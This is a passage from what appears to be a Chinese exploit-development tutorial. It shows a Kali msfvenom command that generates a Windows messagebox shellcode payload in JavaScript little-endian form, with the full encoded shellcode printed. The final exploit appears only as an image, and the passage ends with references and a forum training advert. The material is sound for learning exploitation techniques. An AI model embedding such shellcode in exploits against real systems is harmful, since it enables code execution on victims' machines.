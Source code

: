 
kali 生成 shellcode，以 js 小端序输出

```
kali@kali:~$ msfvenom -p windows/messagebox -f js_le
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 272 bytes
Final size of js_le file: 816 bytes
%uebd9%ud99b%u2474%u31f4%ub2d2%u3177%u64c9%u718b%u8b30%u0c76%u768b%u8b1c%u0846%u7e8b%u8b20%u3836%u184f%uf375%u0159%uffd1%u60e1%u6c8b%u2424%u458b%u8b3c%u2854%u0178%u8bea%u184a%u5a8b%u0120%ue3eb%u4934%u348b%u018b%u31ee%u31ff%ufcc0%u84ac%u74c0%uc107%u0dcf%uc701%uf4eb%u7c3b%u2824%ue175%u5a8b%u0124%u66eb%u0c8b%u8b4b%u1c5a%ueb01%u048b%u018b%u89e8%u2444%u611c%ub2c3%u2908%u89d4%u89e5%u68c2%u4e8e%uec0e%ue852%uff9f%uffff%u4589%ubb04%ud87e%u73e2%u1c87%u5224%u8ee8%uffff%u89ff%u0845%u6c68%u206c%u6841%u3233%u642e%u7568%u6573%u3072%u88db%u245c%u890a%u56e6%u55ff%u8904%u50c2%ua8bb%u4da2%u87bc%u241c%ue852%uff5f%uffff%u6f68%u5878%u6820%u6761%u4265%u4d68%u7365%u3173%u88db%u245c%u890a%u68e3%u2058%u2020%u4d68%u4653%u6821%u6f72%u206d%u6f68%u202c%u6866%u6548%u6c6c%uc931%u4c88%u1024%ue189%ud231%u5352%u5251%ud0ff%uc031%uff50%u0855

```

最终 exploit

![](https://i.loli.net/2021/04/28/QvIqxhnyRTKB9e6.png)

[](#五、参考文献)五、参考文献
-----------------

*   https://www.anquanke.com/post/id/85592
*   https://www.52pojie.cn/thread-596064-1-1.html
*   https://blog.csdn.net/qs_hud/article/details/9821735

[[看雪官方培训] Unicorn Trace 还原 Ollvm 算法！《安卓高级研修班》2021 年 6 月班开始招生！！](https://bbs.pediy.com/thread-267018.htm)